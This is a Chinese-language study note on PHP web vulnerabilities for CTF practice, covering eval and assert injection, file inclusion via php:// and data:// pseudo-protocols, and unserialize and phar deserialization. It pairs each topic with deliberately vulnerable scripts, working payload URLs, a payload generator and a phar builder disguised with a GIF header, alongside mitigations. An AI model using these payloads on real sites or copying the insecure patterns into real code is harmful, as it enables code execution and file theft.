

# PHP从没入门到放弃
19-03-01


## 命令执行函数

名称 | 参数 | 备注 |
 :- | :- | :-
exec | (string cmd) | 执行系统命令，返回string类型执行结果
system | (string cmd) |  执行系统命令，返回string类型执行结果
passthu | (string cmd) | 执行系统命令，返回string类型执行结果
shell_exec | (string cmd) | 执行系统命令，返回string类型执行结果
eval | (string cmd) | 执行PHP命令，返回执行结果。菜刀连接需要使用eval函数构造一句话木马  （无法直接禁用）
assert | (string cmd)| 执行函数并检测其返回值，为true则函数返回为true，否则为false


#### 函数利用
**eval()**
一个php语句注入的例子  
`payload:  http://leafev.com/?data=fuckyou");phpinfo();//`  

```php
<?php
#将传入的字符串进行小写化，然后echo结果，存在类似于sql注入的语句注入漏洞
$data = $_GET['data'];
eval("\$ret = strtolower(\"$data\");");//此处可以通过精心构造$data,截断eval原执行的语句，插入恶意代码
echo $ret;
?>
```

**assert()**
在ubuntu用apt命令安装的php7中，默认禁止编译assert的代码，只会进行语法分析，配置项：  
```conf
#/etc/php/7.2/apache2/php.ini
[Assertion]
; -1: Do not compile at all
;  0: Jump over assertion at run-time
;  1: Execute assertions
; Changing from or to a negative value is only possible in php.ini! (For turning assertions on and off at run-time, see assert.active, when zend.assertions = 1)
; 当数值为-1改到其他数值的时候，或者想从其他数值改到-1的时候，必须要改文件
; 其他时候可以通过执行assert_options(ASSERT_ACTIVE, 数值);在运行的时候设置该值
; Default Value: 1
; Development Value: 1
; Production Value: -1
zend.assertions = -1
```
assert_options函数可以设置assert执行时的属性，其中一个属性可以指定assert失败的时候执行的call_back函数。
一个例子：
这里利用了extact函数的变量赋值
`payload: http://leafev.com/?func_name=boom&code=system()`
```php
<?php
    function boom()
    {
        system("cat flag.txt");
    }

    function warn()
    {
        echo "oh no!";
    }

   
    $func_name =  'warn';

    #if someone really writes this like a idiot...
    extract($_GET);

    assert_options(ASSERT_CALLBACK, $func_name);

    #no cat exceution
    $code = str_replace($code,"c","");
    echo assert($code);

?>
```
### 封堵办法  
禁用函数  
**不要让访问者控制函数参数**
___
## 文件包含
```php
<?php 
    if(array_key_exists('file', $_GET))
    {
        $file = $_GET['file'];
        include($file);
    }else
    {
        echo "set ?file=file";
    }
       
?> 
```
php.ini中有两个配置项，允许文件包含以及打开文件时使用url路径  
  
allow_url_fopen = Off  
allow_url_include = Off   
一般没这个需要，关掉  

一般的ctf文件包含题会做字符过滤，可以尝试结合文件上传或者各种伪协议来绕过  
常用的伪协议：  
>php://input 读取请求中post过来的数据，作为文件流  
>php://filter/read=读链的筛选器/write=写链的筛选器/resource=指定的数据流 对数据流进行筛选过滤操作  
>>数据流可以使用文件，也可以使用URL，如php://input, file://  
>>常用筛选器：  
>>convert.base64-encode  将数据流编码成base64字符串,然后作为数据流给函数  
>>convert.base64-decode  将数据流进行base64解码，数据流中不是在base64表中的字符将被扔掉  
>>
>>使用以下路径来制定被筛选的流:  
>>resource=<要过滤的数据流>	这个参数是必须的。它指定了你要筛选过滤的数据流。  
>>read=<读链的筛选列表>	该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。  
>>write=<写链的筛选列表>	该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。  
>
>phar://归档文件（可以是zip、tar等）路径/访问的归档中的文件    
>zip://压缩包(相对/绝对)路径#[访问的路径/]文件名称 读取压缩包里的文件。需要安装php扩展模块,需要注意井号在传递的时候需要url编码，即%23  
>data://数据类型;数据类型2,数据 提供一个数据流  
>>数据类型可选： text/plain、base64  
>>结合文件包含可导致远程代码执行  
>>http://leafev.com/?file=data://text/plain,%3C?php%20phpinfo();?%3E
>>  
>>\<?php phpinfo();?\>  ==(base64encode)==>PD9waHAgcGhwaW5mbygpOz8+  
>>http://leafev.com/?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b  


名称 | 参数 | 备注 |
 :- | :- | :-
include| 数据流/文件名 | 将数据流中的文本包含至函数执行处，调用PHP解释器执行
include_once| 数据流/文件名 | 效果等同于上面的函数，忽略包含进来的代码中的include函数
require| 数据流/文件名 | 和include作用相同，但是如果引用失败，php终止执行
require_once| 数据流/文件名 | 和include_once作用相同，但是如果引用失败，php终止执行

### 封堵方法  
**禁止读取远程服务器文件**  
allow_url_fopen = Off  
allow_url_include = Off   
**禁止读取网站目录外的东西**  
配置base_dir，只允许读取指定目录下的文件  

**不要让include的文件名称被访问者控制**
___
## 序列化与反序列化利用，以及一些可覆盖变量的函数  
#### 序列化
PHP是一种面向对象的语言，提供了两个函数，用于存储对象和加载对象。这两个函数也可以对普通的变量进行序列化操作
名称 | 参数 | 备注 |
 :- | :- | :-
serialize | （要存储的对象） | 将一个对象以字符串的形式描述出来
unserialize | (字符串描述的对象) | 加载一个以字符串形式描述的对象

反序列化会根据字符串中的属性实例化一个对象。  
如果类中有漏洞，实例化用的字符串又可被访问者控制，那么攻击者便有可能利用类中的漏洞。
举个最基础的攻击的栗子
```php
/*-----------------------网站源码-----------------------*/
<?php 
class web_content
{
    public $file = "fake.txt";

    function show_fakenews()
    {
        echo "Here is today's fake news!<br>";
        include($this->file);
    }


}

if(array_key_exists("file",$_GET))
{
    $html = unserialize($_GET['file']);
}
else
{
    echo "file=web_content";
    echo "<br><br><br>";
    highlight_file(__FILE__);
    exit();
}
$html->show_fakenews();
?>

/*-----------------------生成Payload-----------------------*/
<?php
class web_content
{
    public $file = "flag.txt";

    function show_fakenews()
    {
        echo "Here is today's fake news!<br>";
        include($this->file);
    }
}

$flag = new web_content();
echo serialize($flag); //O:11:"web_content":1:{s:4:"file";s:8:"flag.txt";}
?>
```

#### phar反序列化漏洞
phar是一种归档文件，由php的函数生成。  
在生成phar文件的时候，不仅可以加入要压缩的普通的文件，还可以向文件中加入序列化字符串。  
当php文件操作类函数对phar解析的时候，会反序列化文件中的序列化字符串。序列化的操作可能会给攻击者可乘之机。  
举个栗子
```php
/*--------------------------------------------网站脚本--------------------------------------------*/
//需结合文件上传食用
<?php

class web_content
{
    public $file = "fake.txt";
    function show_fakenews()
    {
        echo "Here is today's fake news!<br>";
        echo file_get_contents("fake.txt") ."<br>";
    }

    function __destruct()
    {
        echo "Breaking news! at file: ".$this->file."<br>";
        if($file === "fake.txt")
        {
            echo "oops, I am a fake media.";
            exit();
        }

        echo file_get_contents($this->file) ."<br>";


    }
}

if(array_key_exists("file",$_GET))
{
    
    if(stristr($_GET['file'],"http") || stristr($_GET['file'],"flag")|| stristr($_GET['file'],"ftp")|| stristr($_GET['file'],"file")|| stristr($_GET['file'],".."))
    {
        echo "hacker!";
        exit();
    }

    $web = new web_content();
    $web->file = $_GET['file'];
    $web->show_fakenews();
}
else{
    echo "file=web_content";
    echo "<br><br><br>";
    highlight_file(__FILE__);
    exit();
    
}
/*--------------------------------------------生成phar文件--------------------------------------------*/

<?php
//先把phar.readonlly设置为Off
//把要进行反序列化的对象放在此处
class web_content
{
    public $file = "fake.txt";
    function show_fakenews()
    {
        echo "Here is today's fake news!<br>";
        echo file_get_contents("fake.txt") ."<br>";
    }

    function __destruct()
    {
        echo "Breaking news! at file: ".$this->file."<br>";
        if($file === "fake.txt")
        {
            echo "oops, I am a fake media.";
            exit();
        }


        echo file_get_contents($this->file) ."<br>";

    }
}
    //以下phar生成代码抄自培训教程
    
    //生成对应可被利用的对象
    $o = new web_content();
    $o->file='flag.txt';
    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头用以欺骗检测
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "testlalalalal"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
/*--------------------------------------------利用phar反序列化覆盖file变量--------------------------------------------*/
?>
```


### 可能导致变量覆盖的函数
名称 | 参数 | 备注 |
 :- | :- | :-
  
___
## SQL注入
___
## 函数禁用
通过配置disable_function来禁止某些函数的使用，eval无法通过此方式禁止，因为不是函数，需要使用php扩展suhosin
```conf
#/etc/php/7.2/apache2/php.ini
; This directive allows you to disable certain functions for security reasons.
; It receives a comma-delimited list of function names.
; http://php.net/disable-functions
disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,

```
禁用可能会误伤站点上用到这些函数的功能
___

## 附一个文件上传栗子
```php
<?php
$form = '
<form action="/upload.php?upload=yes" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <button type="submit">提交</button>
</form>
';
$is_upload =  $_GET["upload"];
if($is_upload !== "yes")
{
        echo $form;
        exit();
}

if(move_uploaded_file($_FILES["file"]["tmp_name"], "/var/www/php/upload/".$_FILES["file"]["name"]))
{
    echo 'successfully uploaded to: '."upload/".$_FILES["file"]["name"];
}
else
{
    echo 'upload failed';
}
?>

```